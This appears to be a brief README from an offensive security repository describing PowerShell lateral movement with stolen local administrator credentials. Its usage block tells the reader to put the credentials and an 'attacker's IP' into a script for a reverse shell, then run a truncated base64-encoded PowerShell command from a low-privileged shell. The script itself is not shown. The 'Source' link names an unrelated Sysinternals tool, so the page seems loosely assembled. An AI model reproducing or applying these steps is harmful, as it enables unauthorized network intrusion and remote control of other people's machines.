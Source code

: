 # Name
Local Admin Lateral Movement (Via Powershell)

## Usage
```
# Useful when local admin creds are obtained but cannot RDP/PSEXEC/WINRM

# Edit lines 5-6 to be local admin creds, line 8 for attacker's IP for simple_ps_revshell
python ps_script.py

# From Low Privileged Interactive cmd.exe:
powershell.exe -NoProfile -NonInteractive -EncodedCommand JABwAD0AQwBvA...

```

## Source
https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe

